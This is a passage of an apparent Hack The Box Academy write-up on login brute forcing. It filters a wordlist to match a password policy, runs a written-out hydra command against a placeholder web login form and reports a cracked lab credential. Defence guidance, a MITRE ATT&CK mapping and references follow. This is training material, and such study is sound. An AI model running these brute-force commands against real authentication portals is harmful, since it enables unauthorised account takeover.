We are also provided the company 'AHI' password policy:
Minimum Length: 6 characters
Must Include:
At least one uppercase letter
At least one lowercase letter
At least one number
At least two special characters (from the set !@#$%^&*)

Lets remove every string in the 'jane.txt' worslist does doesn't quality to those
requirements:


*_Figure 32.1 — Lab execution and output verification (Page 32)_*


*_Figure 32.2 — Lab execution and output verification (Page 32)_*


```bash
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-
```
z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-
filtered.txt


We narrowed down the password lists to 8213 words long – more than 5 times
shorter!

Now when we have the username list 'jane_smith_usernames.txt' and the
password list 'jane-filtered.txt' - we are ready to bruteforce:
```bash
hydra -L jane_smith_usernames.txt -P jane-filtered.txt
```
<target-IP> -s <target-port> -f http-post-form
"/:username=^USER^&password=^PASS^:Invalid credentials"


We have a credentials! 'jane:3n4J!!'


*_Figure 33.1 — Lab execution and output verification (Page 33)_*


*_Figure 33.2 — Lab execution and output verification (Page 33)_*


*_Figure 33.3 — Lab execution and output verification (Page 33)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1110.001, T1110.003, T1110.004` |
| **Common Weakness Enumerations** | `CWE-307` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1110.001`](https://attack.mitre.org/techniques/T1110/) | **Brute Force: Password Guessing** | `Credential Access` | Systematic automated credential guessing against login endpoints |
| [`T1110.003`](https://attack.mitre.org/techniques/T1110/) | **Brute Force: Password Spraying** | `Credential Access` | Testing single common passwords against multiple accounts to evade lockouts |
| [`T1110.004`](https://attack.mitre.org/techniques/T1110/) | **Brute Force: Credential Stuffing** | `Credential Access` | Replaying leaked credential pairs against authentication portals |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-307`: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Monitor Windows Security Event ID 4625 (An account failed to log on) with threshold-based alerting.
- Implement progressive delay and CAPTCHA mechanisms after multiple consecutive authentication failures.
- Enforce rate-limiting and IP throttling at the API gateway or reverse proxy layer.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Login Brute Forcing](https://academy.hackthebox.com/module/57) — *Official Hack The Box curriculum track*
- [OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html) — *Best practices for authentication security*
- [NIST SP 800-63B: Digital Identity Guidelines](https://pages.nist.gov/800-63-3/sp800-63b.html) — *Standard for authentication lifecycle and password policies*
- [Hydra GitHub Repository](https://github.com/vanhauser-thc/thc-hydra) — *Fast network logon cracker reference*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-5-linux-privilege-escalation/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 5: Linux Privilege Escalation</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 6 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-7-broken-authentication/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 7: Broken Authentication & Session Security</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
